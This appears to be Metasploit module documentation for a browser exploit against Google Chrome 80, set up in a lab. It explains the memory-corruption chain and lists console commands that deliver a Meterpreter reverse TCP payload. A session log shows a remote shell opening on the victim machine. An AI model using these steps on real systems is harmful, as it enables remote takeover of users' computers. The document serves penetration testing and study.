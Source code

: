 This module exploits an issue in Google Chrome 80.0.3987.87 (64 bit). The exploit corrupts the length of a float array (float_rel), which can then be used for out of bounds read and write on adjacent memory.
The relative read and write is then used to modify a UInt64Array (uint64_aarw) which is used for read and writing from absolute memory.
The exploit then uses WebAssembly in order to allocate a region of RWX memory, which is then replaced with the payload shellcode.

**The payload is executed within the sandboxed renderer process, so the browser must be run with the --no-sandbox option for the payload to work correctly.**

## Vulnerable Application

The module is compatible with any 64bit Google Chrome (version 80), on any platform (macOS, Linux or Windows), however the code that writes the shellcode into the rwx region (wasm_rwx_addr) may need to be modified for different versions.

**Vulnerable Application Installation Steps**

You can download a vulnerable Chrome version from this location:
[https://www.filepuma.com/download/google_chrome_64bit_80.0.3987.87-24545/](https://www.filepuma.com/download/google_chrome_64bit_80.0.3987.87-24545/)

You should ensure that application does not update itself to the latest version (by disabling automatic updates or simply not connecting to the internet).
You may also need to disable Windows Defender.

## Verification Steps

1. Do: ```use exploit/multi/browser/chrome_jscreate_sideeffect```
2. Do: ```set payload windows/x64/meterpreter/reverse_tcp```
2. Do: ```set LHOST [IP]```
3. Do: ```set SRVHOST [IP]```
3. Do: ```set URIPATH / [PATH]```
4. Do: ```run```

## Scenarios

### Windows 10 and Google Chrome 80.0.3987.87 with --no-sandbox

Start Google Chrome without a sandbox:

```"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --no-sandbox```

```
msf5 > use exploit/multi/browser/chrome_jscreate_sideeffect
msf5 exploit(multi/browser/chrome_jscreate_sideeffect) > set URIPATH /
URIPATH => /
msf5 exploit(multi/browser/chrome_jscreate_sideeffect) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf5 exploit(multi/browser/chrome_jscreate_sideeffect) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/browser/chrome_jscreate_sideeffect) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(multi/browser/chrome_jscreate_sideeffect) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf5 exploit(multi/browser/chrome_jscreate_sideeffect) >
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Using URL: http://192.168.56.1:8080/
[*] Server started.

msf5 exploit(multi/browser/chrome_jscreate_sideeffect) >
[*] 192.168.56.3     chrome_jscreate_sideeffect - Sending / to Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.87 Safari/537.36
[*] Sending stage (206403 bytes) to 192.168.56.3
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.3:49677) at 2020-03-04 21:22:38 +0800

msf5 exploit(multi/browser/chrome_jscreate_sideeffect) > sessions 1
[*] Starting interaction with 1...

meterpreter > pwd
C:\Program Files (x86)\Google\Chrome\Application\80.0.3987.87
meterpreter >
```
